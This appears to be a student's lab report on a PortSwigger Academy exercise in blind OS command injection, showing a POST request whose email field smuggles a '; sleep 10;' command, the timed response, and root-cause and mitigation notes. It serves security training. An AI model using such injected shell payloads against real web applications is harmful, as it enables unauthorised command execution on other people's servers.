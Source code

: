 # Lab Report: Blind OS Command Injection with Time Delays

## Overview
This report documents the exploitation of a **Blind OS Command Injection** vulnerability identified in the feedback submission functionality of the target web application (PortSwigger Lab).  

The injection does not return command output, but we can confirm execution using **time-based payloads**.

---

## Evidence of Exploitation

## Request
```http
POST /feedback/submit HTTP/2
Host: 0af8006903efd585811707cc003b0054.web-security-academy.net
Cookie: session=48DU1hc4aVIZRuvQ3BoEgk2pszbu2qCt
Content-Type: application/x-www-form-urlencoded
Content-Length: 112

csrf=RSaFY6HpuFOg03gYR5dybcfGA6YOppT&name=Rumana&email=Rumana%40gmail.com; sleep+10;&subject=Nothing&message=Hi

## Response

HTTP/2 500 Internal Server Error
Content-Type: application/json; charset=utf-8
Content-Length: 16

"Could not save"


## Observation

-The server response was delayed by approximately 10 seconds after submission.

-This confirms that the injected command (sleep 10) was executed on the backend system.

-Even though the response returned an error message (Could not save), the timing difference proves successful exploitation.


## Impact

-Attackers can execute arbitrary system commands on the underlying server.

-Even without output, this vulnerability can be leveraged for:

-Exfiltration via DNS/HTTP requests

-Privilege escalation

-Full server compromise

## Root Cause
The application concatenates untrusted user input (the `email` parameter) into a system command without proper sanitization.  

Special shell metacharacters (`;`, `&&`, `|`) are not filtered.

## Mitigation
- **Avoid system calls with user input** – Use safe APIs and parameterized functions.  
- **Input Validation & Sanitization** – Reject dangerous characters and enforce strict input rules (e.g., valid email format).  
- **Least Privilege Execution** – Run the application with minimal system permissions.  
- **Monitoring** – Detect abnormal response delays that may indicate exploitation attempts.

## Skills Demonstrated
- Identification of blind command injection  
- Use of time-based payloads (`sleep 10`)  
- Validation of command execution through response timing analysis  
- Crafting injection payloads in a POST request body

## References
- [PortSwigger Academy: Blind OS command injection with time delays](https://portswigger.net/web-security/os-command-injection/blind)  
- [OWASP: OS Command Injection](https://owasp.org/www-community/attacks/Command_Injection)

## Screenshot
![Blind OS Command](/images/Code-Injection-Lab2-backend.jpg)  
![Blind OS Command lab solved](/images/Code-Injection-Lab2.jpg) 
